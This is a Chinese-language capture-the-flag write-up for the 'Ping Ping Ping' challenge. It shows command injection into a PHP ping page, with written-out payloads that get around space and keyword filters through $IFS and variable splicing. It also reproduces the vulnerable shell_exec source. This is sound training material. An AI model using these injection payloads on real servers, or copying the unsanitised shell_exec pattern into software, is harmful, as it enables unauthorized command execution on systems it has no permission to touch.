 # [GXYCTF 2019]Ping Ping Ping

进入环境有一行字

```txt
/?ip=
```

结合题目标题，应该是通过 get 传一个 ip 参数，服务器对其进行 ping 操作，输入 `/?ip=1;ls`

```txt
PING 11 (0.0.0.11): 56 data bytes
flag.php
index.php
```

ls 被执行了，尝试 `cat flag.php`，回显 `fxck your space!`，貌似空格被过滤了，查阅 Linux 绕过空格的方法。

```txt
cat flag.txt
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
```

`/?ip=1;cat$IFS$1flag.php` 回显 `fxck your flag!`，flag 被过滤，那先查看一下 index.php，得到内容

```php
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

过滤了一些特殊符号，过滤 flag 的逻辑是匹配 "\*f.\*l.\*a.\*g."，只要使 flag 不依次出现就行，这里可以使用变量拼接，原理如 `a=s;l$a` 等同于 `ls`。  
所以这里可以这样构造，`?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`，flag 在网页注释里找到

```txt
/?ip=
<pre>PING 127.0.0.1 (127.0.0.1): 56 data bytes
<?php
 $flag = "flag{49c507ce-26b2-43ab-9b28-2bb039e15f11}";
 ?>
```

在注释里有点怪，使用 tac 指令可以显示出来 `/?ip=127.0.0.1;a=g;tac$IFS$1fla$a.php;`，网页源码

```txt
/?ip=
<pre>PING 127.0.0.1 (127.0.0.1): 56 data bytes
?>
$flag = "flag{49c507ce-26b2-43ab-9b28-2bb039e15f11}";
<?php
```

~~是因为 php 执行的 shell 指令输出内容会自动包裹进 `<?php ?>` 吗，让我研究一会。~~

源码中的 `print_r($a);`
